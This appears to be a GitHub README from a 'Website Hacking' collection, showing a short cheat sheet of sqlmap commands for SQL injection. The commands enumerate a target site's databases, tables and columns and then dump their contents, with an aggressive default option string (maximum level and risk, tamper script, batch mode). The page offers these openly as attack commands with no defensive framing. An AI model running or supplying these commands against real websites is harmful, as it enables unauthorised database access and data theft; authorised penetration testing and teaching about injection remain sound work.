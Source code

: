 # SQL Injection, Cross-Site Scripting, Payloads, Dorks, Commands & Lists []  Website Hacking © 2020 - 2022 Collections ![Twitter URL](https://img.shields.io/twitter/url?label=Twitter&style=social&url=https%3A%2F%2Ftwitter%2Fxetaguridimitri)

# Default SQL Injection Commands

sqlmap -u 'Website' --dbs

sqlmap -u 'Website' --dbms='BaseName' -D name.db --tables

sqlmap -u 'Website' --dbms='BaseName' -D name.db -T name.tables --columns

sqlmap -u 'Website' --dbms='BaseName' -D name.db -T name.tables -C name.columns

Default CMD | --random-agent --level=5 --risk=3 --tamper=space2comment --anwser="follow" --batch --threads=10 --beep --dump

<p align="center"><img src="https://img.shields.io/badge/SQL-Injection-critical"></p>
